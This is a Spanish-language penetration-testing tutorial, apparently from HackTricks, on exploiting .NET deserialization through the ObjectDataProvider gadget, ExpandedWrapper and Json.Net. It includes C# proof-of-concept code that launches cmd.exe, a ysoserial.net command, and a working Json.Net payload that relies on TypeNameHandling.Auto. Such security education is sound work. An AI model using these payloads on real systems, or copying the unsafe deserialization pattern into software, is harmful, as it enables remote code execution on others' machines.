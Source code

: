 # Deserialización básica de .Net (gadget ObjectDataProvider, ExpandedWrapper y Json.Net)

{{#include ../../banners/hacktricks-training.md}}

Esta publicación está dedicada a **entender cómo se explota el gadget ObjectDataProvider** para obtener RCE y **cómo** las bibliotecas de Serialización **Json.Net y xmlSerializer pueden ser abusadas** con ese gadget.

## Gadget ObjectDataProvider

De la documentación: _la clase ObjectDataProvider envuelve y crea un objeto que puedes usar como fuente de enlace_.\
Sí, es una explicación extraña, así que veamos qué tiene esta clase que es tan interesante: Esta clase permite **envolver un objeto arbitrario**, usar _**MethodParameters**_ para **establecer parámetros arbitrarios,** y luego **usar MethodName para llamar a una función arbitraria** del objeto arbitrario declarado usando los parámetros arbitrarios.\
Por lo tanto, el **objeto** arbitrario **ejecutará** una **función** con **parámetros mientras se deserializa.**

### **Cómo es esto posible**

El espacio de nombres **System.Windows.Data**, que se encuentra dentro de **PresentationFramework.dll** en `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF`, es donde se define e implementa el ObjectDataProvider.

Usando [**dnSpy**](https://github.com/0xd4d/dnSpy) puedes **inspeccionar el código** de la clase que nos interesa. En la imagen a continuación estamos viendo el código de **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Nombre del método**

![](<../../images/image (427).png>)

Como puedes observar, cuando se establece `MethodName`, se llama a `base.Refresh()`, veamos qué hace:

![](<../../images/image (319).png>)

Ok, continuemos viendo qué hace `this.BeginQuery()`. `BeginQuery` es sobreescrito por `ObjectDataProvider` y esto es lo que hace:

![](<../../images/image (345).png>)

Ten en cuenta que al final del código se llama a `this.QueryWorke(null)`. Veamos qué ejecuta eso:

![](<../../images/image (596).png>)

Ten en cuenta que este no es el código completo de la función `QueryWorker`, pero muestra la parte interesante de ella: El código **llama a `this.InvokeMethodOnInstance(out ex);`** esta es la línea donde se **invoca el método establecido**.

Si quieres comprobar que solo estableciendo el _**MethodName**_\*\* se ejecutará\*\*, puedes ejecutar este código:
```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectType = typeof(Process);
myODP.MethodParameters.Add("cmd.exe");
myODP.MethodParameters.Add("/c calc.exe");
myODP.MethodName = "Start";
}
}
}
```
Note que necesita agregar como referencia _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ para cargar `System.Windows.Data`

## ExpandedWrapper

Usando el exploit anterior, habrá casos en los que el **objeto** será **deserializado como** una instancia de _**ObjectDataProvider**_ (por ejemplo, en la vulnerabilidad de DotNetNuke, usando XmlSerializer, el objeto fue deserializado usando `GetType`). Entonces, **no tendrá conocimiento del tipo de objeto que está envuelto** en la instancia de _ObjectDataProvider_ (por ejemplo, `Process`). Puede encontrar más [información sobre la vulnerabilidad de DotNetNuke aquí](https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F&sandbox=1).

Esta clase permite **especificar los tipos de objeto de los objetos que están encapsulados** en una instancia dada. Por lo tanto, esta clase se puede usar para encapsular un objeto fuente (_ObjectDataProvider_) en un nuevo tipo de objeto y proporcionar las propiedades que necesitamos (_ObjectDataProvider.MethodName_ y _ObjectDataProvider.MethodParameters_).\
Esto es muy útil para casos como el presentado anteriormente, porque podremos **envolver \_ObjectDataProvider**_\*\* dentro de una instancia de \*\*_**ExpandedWrapper** \_ y **cuando se deserialice** esta clase **creará** el objeto _**OjectDataProvider**_ que **ejecutará** la **función** indicada en _**MethodName**_.

Puede verificar este envoltorio con el siguiente código:
```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
myExpWrap.ProjectedProperty0.MethodName = "Start";
}
}
}
```
## Json.Net

En la [página web oficial](https://www.newtonsoft.com/json) se indica que esta biblioteca permite **Serializar y deserializar cualquier objeto .NET con el poderoso serializador JSON de Json.NET**. Así que, si pudiéramos **deserializar el gadget ObjectDataProvider**, podríamos causar un **RCE** solo deserializando un objeto.

### Ejemplo de Json.Net

Primero que nada, veamos un ejemplo de cómo **serializar/deserializar** un objeto utilizando esta biblioteca:
```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
public class Account
{
public string Email { get; set; }
public bool Active { get; set; }
public DateTime CreatedDate { get; set; }
public IList<string> Roles { get; set; }
}
class Program
{
static void Main(string[] args)
{
Account account = new Account
{
Email = "james@example.com",
Active = true,
CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
Roles = new List<string>
{
"User",
"Admin"
}
};
//Serialize the object and print it
string json = JsonConvert.SerializeObject(account);
Console.WriteLine(json);
//{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}

//Deserialize it
Account desaccount = JsonConvert.DeserializeObject<Account>(json);
Console.WriteLine(desaccount.Email);
}
}
}
```
### Abusando de Json.Net

Usando [ysoserial.net](https://github.com/pwntester/ysoserial.net) creé el exploit:
```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
En este código puedes **probar el exploit**, solo ejecútalo y verás que se ejecuta un calc:
```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
class Program
{
static void Main(string[] args)
{
//Declare exploit
string userdata = @"{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}";
//Exploit to base64
string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

//Get data from base64
byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
//Deserialize data
string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
}
}
}
```
{{#include ../../banners/hacktricks-training.md}}
